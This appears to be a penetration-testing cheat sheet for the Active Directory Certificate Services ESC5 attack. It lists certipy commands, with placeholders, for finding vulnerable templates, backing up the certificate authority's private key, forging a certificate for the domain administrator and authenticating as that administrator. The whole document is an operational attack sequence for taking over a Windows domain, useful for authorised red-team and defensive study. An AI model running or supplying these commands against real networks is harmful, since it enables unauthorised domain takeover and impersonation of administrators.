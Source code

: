 # ADCS ESC5 (Use Powershell/Powerview to modify AD-Objects)

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
### When inspecting, look for permissions allowing non-administrative users, 
### or overly broad groups (like "Authenticated Users" or "Domain Users"), to modify these objects or their critical attributes (e.g., WriteProperty on certificateThumbprint for an object in AIA, 
### or WriteProperty on msPKI-Certificates for the NTAuthCertificates store).
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Dump CA Key
### These steps assume the CA's private key has already been compromised and exported to a .pfx file, potentially as an outcome of an advanced ESC5 attack or another CA compromise method like ESC7 or stealing a backup
```
certipy ca \
    -u '<privileged_username>'@<domain>' -p '<password>' \
    -ns '<NS_SERVER>' -target '<CA_FQDN>' \
    -config '<CA_FQDN>\<CA_CONFIG_STRING>' -backup
```

## 3. Forge Golden Ticket
```
certipy forge \
    -ca-pfx '<CA_PFX>.pfx' -upn 'administrator@<domain>' \
    -sid '<ADMIN_SID>' -crl 'ldap:///'
```

## 4. Authenticate
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```
